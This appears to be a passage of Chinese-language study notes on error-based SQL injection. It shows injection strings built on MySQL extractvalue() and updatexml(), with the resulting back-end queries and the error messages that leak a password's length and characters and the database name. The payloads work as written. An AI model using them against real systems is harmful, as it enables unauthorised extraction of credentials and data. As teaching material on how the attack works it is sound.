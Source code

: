 ```
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT length(password)
          FROM users
          WHERE user_id = 1
        )
    )
);

// XPATH syntax error: '~32'

密码总长度为32位，需要33位空位，少一位，使用substr()函数
前端：
1' and extractvalue(1,concat(0x7e,(select substr(password,32,1) from users where user_id = 1))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT substr(password,32,1)
          FROM users
          WHERE user_id = 1
        )
    )
);

// XPATH syntax error: '~9' 最后一位密码是9
```
- updatexml()函数
  - updatexml()是一个使用不同的XML标记匹配和替换XML块的函数
  - 作用：改变文档中符合条件的节点的值
  - 语法：updatexml(XML_document,xpath_string,new_value)
    - 第一个参数：是string格式，为XML文档对象名称
    - 第二个参数；代表路径，xpath格式的字符串，例如//title
    - 第三个参数：string格式，替换查找到的符合条件的数据
```
爆库名：
前端：
1' and updatexml(0x7e,concat(0x7e,database()),0x7e);#

后面和extractvalue()的注入方法相同
```
